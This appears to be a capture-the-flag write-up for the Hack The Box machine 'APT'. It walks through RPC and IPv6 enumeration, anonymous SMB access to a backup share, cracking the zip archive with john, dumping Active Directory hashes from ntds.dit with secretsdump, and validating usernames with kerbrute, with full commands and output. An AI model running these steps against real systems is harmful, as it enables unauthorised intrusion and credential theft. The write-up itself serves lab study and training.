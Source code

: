 ### RPC - TCP 135
* https://learn.microsoft.com/en-us/troubleshoot/windows-server/networking/service-overview-and-network-port-requirements
* https://0xdf.gitlab.io/2021/04/10/htb-apt.html#rpc---tcp-135

RPC or Remote Procedure Call, is an IPC (InterProcess Communication) mechanism which allows remote invocation of functions. This can be done locally on the server or via network clients. Distributed Component Object Model (DCOM, TCP 135) allows applications to expose objects and RPC interfaces to be invoked via RPC.
A list of available interfaces provided by DCOM can be enumerated using `impacket rpcmap.py` since `rpcclient` doesn’t do much TCP 445 or TCP 139.

```bash
impacket-rpcmap -h

Lookups listening MSRPC interfaces.

positional arguments:
  stringbinding         String binding to connect to MSRPC interface, for example:
                        ncacn_ip_tcp:192.168.0.1[135]
                        ncacn_np:192.168.0.1[\pipe\spoolss]
                        ncacn_http:192.168.0.1[593]
                        ncacn_http:[6001,RpcProxy=exchange.contoso.com:443]
                        ncacn_http:localhost[3388,RpcProxy=rds.contoso:443]
                        ```

```bash
impacket-rpcmap ncacn_ip_tcp:$IP

impacket-rpcmap ncacn_ip_tcp:$IP | grep -i 'DCOM' -A2
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 000001A0-0000-0000-C000-000000000046 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 4D9F4AB8-7D1C-11CF-861E-0020AF6E7C57 v0.0
--
Protocol: [MS-DCOM]: Distributed Component Object Model (DCOM) Remote
Provider: rpcss.dll
UUID: 99FCFEC4-5260-101B-BBCB-00AA0021347A v0.0
```


* https://learn.microsoft.com/en-us/openspecs/windows_protocols/ms-dcom/c25391af-f59e-40da-885e-cc84076673e4

This scan provided a bunch of RPC endpoints with their UUIDs, the MS-DCOM ones (Google the UUID will get it). The one shown above is the RPC interface UUID for IObjectExporter, or the IOXIDResolver. This is know that is used for the Potato exploits. 

There’s a POC script at the bottom (I added () around the print statement so it would work with modern Python), which I’ll grab and run:

### Ipv6 and then TCP 135 again
* https://book.hacktricks.xyz/network-services-pentesting/135-pentesting-msrpc#identifying-ip-addresses
* https://github.com/A1vinSmith/IOXIDResolver

```bash
python serveralive.py
Address: apt
Address: 10.10.10.213 <- VIP+ not working, have to go with public(not private just for you) ip address
Address: dead:beef::b885:d62a:d679:573f
```

```bash
nmap -6 -p- --min-rate 10000 -oA scans/nmap-alltcp-ipv6 dead:beef::b885:d62a:d679:573f

PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
5985/tcp  open  wsman
9389/tcp  open  adws
47001/tcp open  winrm
49664/tcp open  unknown
49665/tcp open  unknown
49666/tcp open  unknown
49667/tcp open  unknown
49669/tcp open  unknown
49670/tcp open  unknown
49673/tcp open  unknown
49691/tcp open  unknown

smbclient -L $IP_V6 --no-pass
Anonymous login successful

        Sharename       Type      Comment
        ---------       ----      -------
        backup          Disk      
        IPC$            IPC       Remote IPC
        NETLOGON        Disk      Logon server share 
        SYSVOL          Disk      Logon server share 
dead:beef::b885:d62a:d679:573f is an IPv6 address -- no workgroup available

smbclient \\\\$IP_V6\\backup --no-pass
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> dir
  .                                   D        0  Thu Sep 24 19:30:52 2020
  ..                                  D        0  Thu Sep 24 19:30:52 2020
  backup.zip                          A 10650961  Thu Sep 24 19:30:32 2020

                5114623 blocks of size 4096. 2633130 blocks available
smb: \> get backup.zip
getting file \backup.zip of size 10650961 as backup.zip (1685.0 KiloBytes/sec) (average 1685.0 KiloBytes/sec)

unzip -l backup.zip
Archive:  backup.zip
  Length      Date    Time    Name
---------  ---------- -----   ----
        0  2020-09-23 19:40   Active Directory/
 50331648  2020-09-23 19:38   Active Directory/ntds.dit
    16384  2020-09-23 19:38   Active Directory/ntds.jfm
        0  2020-09-23 19:40   registry/
   262144  2020-09-23 19:22   registry/SECURITY
 12582912  2020-09-23 19:22   registry/SYSTEM
---------                     -------
 63193088                     6 files

john --wordlist=/usr/share/wordlists/rockyou.txt backup.zip.hash
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 5 OpenMP threads
iloveyousomuch   (backup.zip)

# save it to a file, and grep to get just the hashes, and there are 2000:
❯ impacket-secretsdump -ntds backup/Active\ Directory/ntds.dit -system backup/registry/SYSTEM LOCAL > backup_ad_secretdump
❯ grep ':::' backup_ad_secretdump | wc -l

# tried taking the admin hash and logging in with crackmapexec and psexc.py, and both returned invalid credentials
```

##### Check Users
* https://0xdf.gitlab.io/2021/04/10/htb-apt.html#check-users

Offical writeup from HTB is also good this time.

With 2000 users, I need a way to check how much of this is valid. Because Kerberos is available on IPv6 (TCP 88), I can use Kerbrute to check the users. I’ll get a list of just the users. 

Also, Getting kerbrute to connect to an IPv6 was a bit tricky. Just putting the address in as the DC didn’t work. Eventually I got it working using the hosts file to define the IPv6 as apt.htb. My hosts file will show both apt.htb and htb.local as this IPv6

```bash
grep ':::' backup_ad_secretdump | awk -F: '{print $1}' > users

~/kerbrute/kerbrute-arm64 userenum -d htb.local --dc apt.htb users

2023/10/30 12:57:24 >  Using KDC(s):
2023/10/30 12:57:24 >   apt.htb:88

2023/10/30 12:57:29 >  [+] VALID USERNAME:       Administrator@htb.local
2023/10/30 12:57:29 >  [+] VALID USERNAME:       APT$@htb.local
2023/10/30 13:01:41 >  [+] VALID USERNAME:       henry.vinson@htb.local
```

Only find one non-default username i.e. henry.vinson